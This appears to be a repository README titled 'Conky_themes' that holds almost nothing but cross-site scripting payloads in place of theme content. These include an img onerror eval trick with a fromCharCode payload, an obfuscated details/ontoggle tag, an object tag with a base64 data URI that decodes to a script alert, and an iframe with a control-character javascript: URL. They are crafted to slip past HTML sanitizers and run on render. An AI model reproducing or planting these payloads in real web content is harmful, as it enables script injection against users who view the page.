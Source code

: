 <img src=x:prompt(eval(alt)) onerror=eval(src) alt=String.fromCharCode(88,83,83)># Conky_themes
<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>

<object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
<iframe src="\x01javascript:alert(0)"></iframe> 
